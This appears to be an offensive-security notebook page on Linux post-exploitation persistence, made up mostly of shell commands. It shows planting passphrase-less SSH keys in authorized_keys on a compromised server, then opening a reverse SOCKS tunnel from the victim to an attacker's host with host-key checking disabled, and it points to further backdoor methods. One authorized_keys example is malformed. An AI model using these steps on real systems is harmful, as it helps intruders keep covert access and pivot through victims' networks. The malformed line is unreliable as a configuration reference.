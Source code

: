 # Living off the Land

Search Tag(s): #maintaining-access #persistence #linux

## 01 - Copy SSH Key Remotely

Generate an SSH key without any passphrase.

```
userware@hackware-os:~$ ssh-keygen -qt rsa -b 4096 -f ~/.ssh/id_rsa -C '' -N ''

userware@hackware-os:~$ ssh-keygen -qt ed25519 -f ~/.ssh/id_ed25519 -C '' -N ''
```

### 1.1 - Method One: `ssh-copy-id`

Copy the SSH public key to the compromised SSH server. It may prompt you a password to enter.

```
userware@hackware-os:~$ ssh-copy-id [-p <PORT>] -i ~/.ssh/id_rsa.pub -f <username>@<target_IP>
/usr/bin/ssh-copy-id: INFO: Source of key(s) to be installed: "/home/userware/.ssh/id_rsa.pub"
<username>@<target_IP>'s password:

Number of key(s) added: 1

Now try logging into the machine, with:   "ssh [-p '<PORT>'] '<username>@<target_IP>'"
and check to make sure that only the key(s) you wanted were added.
```

### 1.2 - Method Two: copy it manually

```
userware@hackware-os:~$ cat ~/.ssh/id_rsa.pub

$ mkdir $HOME/.ssh/ && chmod 700 $HOME/.ssh/

$ echo "<ssh_public_key_contents>" > $HOME/.ssh/authorized_keys

$ chmod 600 $HOME/.ssh/authorized_keys
```

Authenticate it with the SSH key.

```
$ ssh [-p <PORT>] -i ~/.ssh/id_rsa <username>@<target_IP>
```

## 02 - Generate SSH Key Locally

Create a temp directory.

```
$ mkdir /tmp/keys/
```

Generate an SSH key inside a temporary directory without any passphrase in a compromised system.

```
$ ssh-keygen -qt rsa -b 4096 -f /tmp/keys/id_rsa -C '' -N ''

$ ls /tmp/keys/
id_rsa  id_rsa.pub
```

Copy the SSH key while in the non-interactive shell.

```
$ cat /tmp/keys/id_rsa.pub
```

Paste it in the `authorized_keys` and include restrictions to circumvent security risks.

```
userware@hackware-os:~$ touch ~/.ssh/authorized_keys

userware@hackware-os:~$ cat ~/.ssh/authorized_keys
from="<compromised_system_IP>",command="command="echo 'Only for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty, <ssh_public_key_contents>

userware@hackware-os:~$ chmod 600 ~/.ssh/authorized_keys
```

Authenticate to the SSH server (the attacker).

```
$ ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" <username>@<attacker_IP>
```

Confirm the compromised machine has established connection via SSH with a reverse dynamic port forwarding.

```
userware@hackware-os:~$ ss -antpl
```

Once everything has been completed. You can use any of the backdoor methods that are suitable for reverse SSH.

---
## References

- [[01 - Command Line/A - Operating Systems/Linux/Unix Shell/Basic Commands/02 - File and Directory Manipulation|Command Line: Unix File and Directory Manipulation]]

- [[04 - Remote Port Forwarding|Pivoting: SSH Remote Port Forward]]

- [[Linux Post Exploitation Persistence References]]